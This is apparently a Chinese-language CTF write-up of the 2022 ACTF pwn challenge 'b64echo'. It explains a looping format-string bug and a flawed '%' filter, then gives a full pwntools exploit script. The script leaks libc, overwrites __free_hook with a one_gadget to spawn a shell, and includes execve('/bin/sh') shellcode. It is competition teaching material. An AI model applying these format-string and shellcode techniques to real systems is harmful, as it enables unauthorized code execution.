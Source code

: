```yaml
---
title: 2022 ACTF 部分pwn Writeup
date: 2022-06-25 16:54:59 +0800
categories: [ctf比赛]
tags: [pwn, ctf]
permalink: /posts/id=27/
pin: false
published:
---
```


## b64echo

![image-20220625174651216](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220625174651216.png)

题目开辟了一个堆块记录一些基值，实现base64解密，漏洞点在格式化字符串，存在循环的格式化字符串漏洞

![image-20220625174706714](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220625174706714.png)

结束时存在一个free操作，考虑用格式化字符串泄露地址，同时修改free_hook为one_gadget

![image-20220625174748511](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220625174748511.png)

难点在于会检验解密后的字符串中是否有`%`，一旦检验到`%`就exit，但并没有对字符串最后一个字符进行校验，导致`%`可以出现在末尾，通过多次输入实现最后需要的payload。

![image-20220625175007793](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220625175007793.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
import os
import base64
context.log_level = 'debug'
context.arch='amd64'
p = process('./b64echo')
p = remote("121.36.255.51","9999")
elf = ELF("b64echo")
libc = elf.libc
#elf=ELF('./pwn')

def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def decode(con):
    length = len(con)
    sla("Tell me the length of your base64 input: ",length)
    # dbg()
    p.send(con)

def decode1(con):
    length = len(con)
    sla("Tell me the length of your base64 input: ",length)
    dbg()
    p.send(con)

# ---------------------------------
print p.recv()
aaa = raw_input()
p.send(aaa)

decode(base64.b64encode(' 81$p'))
decode('JQ==')

libc_base = int(p.recv(14),16)-0x21C87
lg('libc_base')
one = libc_base + 0x10a2fc
free_hook = libc_base + libc.sym['__free_hook']
exit_hook = 0x61bf60+libc_base
lg('one')
lg('free_hook')

#---------------------------------------------
onel = one&0xffff
oneh = (one>>16)&0xffff
onem = (one>>32)&0xffff
lg('onel')
lg('oneh')
lg('onem')
print len(str(onel))
print len(str(oneh))

pl1 = '%'
pl2 = len(pl1)*'\x00'+str(onel)+'c%'
pl3 = len(pl2)*'\x00'+'50$hn%'
pl4 = len(pl3)*'\x00'+str(oneh-onel)+'c%'
pl5 = len(pl4)*'\x00'+'51$hn'
pl5 = pl5.ljust(0x20,'x')+p64(free_hook)+p64(free_hook+2)


# sleep(0.1)
decode(base64.b64encode((len(str(onem))+3)*' '+'17$hnxhh')+p64(free_hook+4))# 
decode(base64.b64encode(' '+str(onem)+'c'+'%'))
decode(base64.b64encode('%'))


decode(base64.b64encode(pl5))
decode(base64.b64encode(pl4))
decode(base64.b64encode(pl3))
decode(base64.b64encode(pl2))
decode(base64.b64encode(pl1))

p.interactive()

'''
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''
```

![image-20220625174610057](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220625174610057.png)